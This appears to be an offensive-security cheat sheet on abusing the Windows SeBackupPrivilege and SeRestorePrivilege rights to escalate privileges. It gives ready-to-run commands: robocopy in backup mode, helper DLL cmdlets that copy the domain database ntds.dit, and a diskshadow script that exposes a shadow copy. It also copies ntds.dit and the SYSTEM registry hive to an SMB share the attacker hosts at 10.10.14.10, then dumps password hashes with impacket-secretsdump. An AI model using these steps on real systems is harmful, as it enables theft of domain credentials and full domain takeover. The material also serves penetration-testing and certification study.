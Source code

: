```yaml
---
title: "SeBackupPrivilege/SeRestorePrivilege"
date: 2024-7-18
tags: ["SeBackupPrivilege", "SeRestorePrivilege", "privesc", "Windows", "Backup Operators", "diskshadow", "secretsdump"]
---
```


---
### Abuse #1: Robocopy

```powershell
# For example
robocopy /b <TARGET_DIR_PATH> C:\Windows\Tasks <TARGET_FILE>
```

<br>

---

### Abuse #2: Using helper dlls

[SeBackupPrivilegeUtils.dll](https://github.com/giuliano108/SeBackupPrivilege/blob/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeUtils.dll?raw=true)

[SeBackupPrivilegeCmdLets.dll](https://github.com/giuliano108/SeBackupPrivilege/blob/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeCmdLets.dll?raw=true)

```powershell
import-module .\SeBackupPrivilegeCmdLets.dll
```

```powershell
import-module .\SeBackupPrivilegeUtils.dll
```

```powershell
Copy-FileSeBackupPrivilege <TARGET_FILE_PATH> C:\ProgramData\<TARGET_FILE>
```

```powershell
# For example
Copy-FileSeBackupPrivilege C:\Windows\ntds\ntds.dit C:\ProgramData\ntds.dit
```

<br>

---

### Abuse #3: Diskshadow

#### 1. Create a .dsh file

```bash
set context persistent nowriters
set metadata C:\ProgramData\test.cab
set verbose on
add volume c: alias test
create
expose %test% x:
```

<br>

```bash
# Convert to dos format
unix2dos vss.dsh
```

#### 2. Run vss.dsh

```powershell
# Upload and run
diskshadow /s C:\ProgramData\vss.dsh
```

#### 3. Host a smb server (In Linux)

```bash
impacket-smbserver share . -smb2support
```

#### 4. Copy to local Linux

```bash
net use \\10.10.14.10\share
```

```bash
Copy-FileSeBackupPrivilege x:\Windows\ntds\ntds.dit \\10.10.14.10\share\ntds.dit
```

```bash
reg.exe save hklm\system \\10.10.14.10\share\system
```

#### 5. Secrets dump

```bash
impacket-secretsdump -ntds ntds.dit -system system LOCAL
```

<br>